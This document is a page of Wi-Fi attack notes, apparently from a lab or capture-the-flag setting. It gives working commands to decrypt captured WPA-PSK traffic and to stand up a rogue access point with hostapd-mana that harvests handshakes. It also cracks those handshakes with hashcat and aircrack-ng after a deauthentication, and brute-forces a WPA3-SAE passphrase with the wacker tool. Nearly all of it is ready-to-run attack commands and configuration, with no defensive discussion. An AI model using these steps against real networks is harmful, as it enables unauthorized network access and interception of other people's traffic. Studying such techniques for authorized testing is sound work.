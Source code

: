 ## Decrytping PSK traffic
Once the handshake and password obtained, we can decrypt the traffic of each of the users after the handshake, making it very similar to the open networks.
```
#decrypt traffic
sudo airdecap-ng -e wifi-mobile -p starwars1 wifi/psk-scan-01.cap

#read packet 
wireshark wifi/psk-scan-01-dec.cap
```

## Creating fake PSK AP and get handshake
hostapd.conf
```
interface=wlan1
driver=nl80211
hw_mode=g
channel=1
ssid=wifi-offices
mana_wpaout=hostapd.hccapx
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=12345678
```
Run the fake AP 
```
sudo hostapd-mana hostapd.conf
```
CTRL+C when AP-STA-POSSIBLE-PSK-MISMATCH.

Crack handshake with hashcat
```
cat hostapd.hccapx | awk '{print $3}' > hashes.22000
hashcat -a 0 -m 2500 hostapd.hccapx rockyou.txt --force
hashcat -a 0 -m 22000 hashes.22000 rockyou.txt --force 

#2500 mode does not work, convert from 2500 to 22000
hcxhash2cap --hccapx=hostapd.hccapx -c aux.pcap
```
Crack with aircrak-ng
```
sudo airodump-ng wlan0mon  -w /tmp/offices.cap --essid wifi-offices
#after deauth and handshake catched
aircrack-ng -w rockyou.txt -e wifi-offices /tmp/offices.cap-01.cap
```

## Cracking SAE
```
git clone https://github.com/blunderbuss-wctf/wacker.git
cd wacker 

# Build wpa_supplicant (follow documentation)

#Get the frequence (field freq) : wifi-management is the SSID 
# The BSSID should be in capital
sudo iw dev wlan6 scan | grep -A 25 "wifi-management"

sudo ./wacker.py --wordlist rockyou.txt --ssid wifi-management --bssid F0:9F:C2:11:0A:24 --interface wlan2 --freq 2462

```